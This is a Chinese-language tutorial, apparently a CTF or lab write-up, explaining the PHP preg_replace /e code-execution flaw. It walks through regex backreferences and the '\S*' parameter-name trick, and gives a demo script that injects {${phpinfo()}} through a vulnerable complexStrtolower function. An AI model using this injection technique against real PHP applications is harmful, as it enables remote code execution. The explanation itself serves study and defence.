 ```bash
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed

# 翻译成人话就是
preg_replace (正则表达式 , 替换内容 , 数据源 )
```

##### 漏洞原理

`PHP`正则`e模式`，会将匹配到的结果替换为指定内容，并将替换后的结果当代码执行

即，触发代码执行漏洞条件：

1. 数据成功被正则表达式匹配
2. 替换后的内容是正确的PHP代码

##### 爬坑一

上面的命令执行，相当于 **eval('strtolower("\\1");')** 结果，当中的 **\\1** 实际上就是 **\1** ，而 **\1** 在正则表达式中有自己的含义。我们来看看 [**W3Cschool**](https://www.w3cschool.cn/zhengzebiaodashi/regexp-syntax.html) 中对其的描述：

> **反向引用**
>
> 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

这里翻译成人话就是：`$value`如果成功被正则表达式匹配到，就会放入**临时缓冲区**中，然后后续使用`\1`将`$value`取出，由于是放一个取一个，所以永远取第一个就行

```
原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
最后得到的结果：strtolower("{${phpinfo()}}");
```

以此就能达到漏洞执行的目的

##### 爬坑二

`.*`中的`.`是非法字符不能直接传到`$_GET`数组中，否则会被转义为`_*`，从而达到触发漏洞的==第一个条件：数据成功被正则表达式匹配==

所以这里可以使用`\S*`来绕过 **\S\*=${phpinfo()}**

##### 最后触发漏洞

```php
<?php
$_GET['\S*'] = "{${phpinfo()}}";
function complexStrtolower($regex, $value){
    return preg_replace('/('.$regex.')/ei', 'strtolower("\\1")', $value);
}

foreach ($_GET as $regex => $value){
    echo complexStrtolower($regex, $value)."\n";
}
# 成功执行phpinfo()
```
